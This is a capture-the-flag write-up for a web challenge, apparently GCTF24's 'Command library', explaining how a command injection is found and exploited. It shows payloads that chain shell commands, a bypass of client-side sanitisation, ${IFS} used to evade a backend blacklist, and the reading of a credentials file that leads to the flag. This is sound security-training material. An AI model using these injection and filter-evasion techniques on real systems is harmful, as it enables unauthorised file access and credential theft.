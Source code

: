 # Command library

Try out my library, and don't try to do anything funny with the input field!

# Flag
```
GCTF24{no7_50_s3cur3_C0mM4nD1nj3cTioN}
```

# Solution

<img src="imgs/index.png">

There is an interesting login feature which we may need for later.

The nature of this challenge hints towards a RCE vulnerability. Trying `ls` as a payload:

<img src="imgs/ls.png">

Let's try to read `note.md` using `ls;cat note.md`:

<img src="imgs/sanitised.png">

We can easily bypass the client-side sanitisation by modifying a request through Burpsuite.

<img src="imgs/filter.png">

It seems the backend still does some sort of blacklisting. I fuzzed around with different inputs and found that these are disallowed: 
- Whitespaces ( )
- Forward slash (/)
- `cat` and `less` command

We can replace whitespaces with `${IFS}` and read the file using the `more` command. Hence, our payload:

```
more${IFS}note.md
```

Output:

```
::::::::::::::
note.md
::::::::::::::
## Note to self:
Credentials for test account is in the **/home** directory
Also, if you want to change directory and read the file inside, you will need to combine them in a single line
```

Explore the `/home` directory to find credentials.

```
::::::::::::::
/home/credentials.txt
::::::::::::::
username: givem
password: 3f149
```

Use these credentials to login into the website and get the flag.

<img src="imgs/flag.png">